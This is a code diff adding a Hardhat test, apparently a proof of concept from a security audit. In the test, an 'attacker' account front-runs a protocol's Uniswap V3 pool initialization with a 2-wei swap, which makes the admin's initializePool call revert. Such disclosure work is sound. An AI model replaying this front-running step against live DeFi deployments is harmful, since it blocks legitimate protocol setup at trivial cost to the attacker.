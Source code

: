 ```diff
+
+               // 1. create pool for test
+               await factory.createPool(weth.address, rdnt.address, 3000);
+               const uniswapV3Pool = await ethers.getContractAt('UniswapV3Pool', await factory.getPool(weth.address, rdnt.address, 3000));
+               let sqrtPriceX96 = weth.address < rdnt.address ?
+                       encodePriceSqrtX96(POOL_WETH_RESERVE, POOL_RDNT_RESERVE) : encodePriceSqrtX96(POOL_RDNT_RESERVE, POOL_WETH_RESERVE);
+               await uniswapV3Pool.initialize(sqrtPriceX96);
+               await weth.mint(user1.address, POOL_WETH_RESERVE);
+               await rdnt.mint(user1.address, POOL_RDNT_RESERVE);
+               await weth.connect(user1).approve(router.address, ethers.constants.MaxUint256);
+               await rdnt.connect(user1).approve(router.address, ethers.constants.MaxUint256);
+               await router.connect(user1).addFullRangeLiquidity(
+                       weth.address,
+                       rdnt.address,
+                       await uniswapV3Pool.fee(),
+                       weth.address < rdnt.address ? POOL_WETH_RESERVE : POOL_RDNT_RESERVE,
+                       weth.address < rdnt.address ? POOL_RDNT_RESERVE : POOL_WETH_RESERVE,
+               )
+
+               // 2. attacker swap in advance
+               const [,,,, attacker] = await ethers.getSigners();
+               await weth.mint(attacker.address, ethers.utils.parseEther('1'));
+               await rdnt.mint(attacker.address, ethers.utils.parseEther('1'));
+               await weth.connect(attacker).approve(router.address, ethers.constants.MaxUint256);
+               await rdnt.connect(attacker).approve(router.address, ethers.constants.MaxUint256);
+               const attackerWethBalanceBefore = await weth.balanceOf(attacker.address);
+               await router.connect(attacker).exactInputSingle({
+                       tokenIn: weth.address,
+                       tokenOut: rdnt.address,
+                       fee: await uniswapV3Pool.fee(),
+                       recipient: attacker.address,
+                       deadline: ethers.constants.MaxUint256,
+                       amountIn: BigNumber.from(2),
+                       amountOutMinimum: 0,
+                       sqrtPriceLimitX96: 0,
+               });
+
+               // 3. admin run `initializePool`
+               await expect(poolHelper.initializePool({
+                       factoryType: 0,
+                       uniV3Factory: factory.address,
+                       tokenizedLpImpl: uV3TokenizedLp_implementation.address,
+                       usdRdntOracle: rdntUsdOracle.address,
+                       usdWeth9Oracle: wethUsdOracle.address
+               })).to.be.revertedWith('ERC20: transfer amount exceeds balance');
+
+               const attackerWethCost = attackerWethBalanceBefore.sub(await weth.balanceOf(attacker.address));
+               console.log("attacker cost %s wei WETH", attackerWethCost);
+       });
+
        it('should check uniV3PoolHelper can be properly initialized', async () => {
                const {poolHelper, uV3TokenizedLp_implementation, factory, samplePool, rdntUsdOracle, wethUsdOracle} =
                        await loadFixture(setupFixture);
```
